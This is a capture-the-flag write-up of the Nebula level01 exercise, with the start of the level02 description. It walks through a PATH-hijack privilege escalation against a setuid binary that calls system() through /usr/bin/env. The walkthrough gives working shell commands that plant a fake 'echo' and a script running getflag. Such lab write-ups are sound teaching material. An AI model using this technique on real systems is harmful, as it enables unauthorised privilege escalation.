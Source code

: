Looking in the home directory of user `flag01`, we can see some basic stuff like bash-configuration, along with a executable with the suid bit set.

~~~
$ ls -l /home/flag01/flag01
-rwsr-x--- flag01 level01 7322 2011-11-20 21:22 /home/flag01/flag01
~~~

**Pro-tip**: *`man` is your best friend.*

[The manuals](http://linux.die.net/man/3/system) make it clear to
avoid using the function-call if the executable is given suid
privileges, and seeing how the previous function-calls involve getting
& setting user and group IDs, we got ourselves a vulnerability.

Because we can just set our own environment variables & make the program
do what we want (we want to execute `getflag` on the `flag01` user-account).

The string "/usr/bin/env echo and now what?" might seem like a
reasonable line of shell-code, but since the code is using
`/usr/bin/env`, it's trivial for us attackers to provide our very own
environment variables.

~~~
$ mkdir /tmp/level01 && cd /tmp/level01
$ cp /bin/sh ./echo
$ cat << EOF > and
#!/bin/sh
/bin/getflag > out
EOF
$ chmod +x and
~~~

So what we did right there was to copy the executable `sh` into our
directory & named it echo. We also created a very simple shell-script
that will execute `/bin/getflag` and shove the output into the file
`out`.

Now we just need to modify the `PATH` environment variable so that the
setuid binary located in `/home/flag01` will execute our version of echo,
giving the file `and` as it's first parameter. Basically we're turning
`echo and now what?` into `sh ourScript now what?`.

~~~
$ PATH=/tmp/level01 /home/flag01/flag01
$ cat out
You have successfully executed getflag on a target account
~~~

**Huzzah!**

* * * 

# [level02](https://exploit-exercises.com/nebula/level02/)

>## About
>
>There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
>
>To do this level, log in as the level02 account with the password level02. Files for this level can be found in /home/flag02.
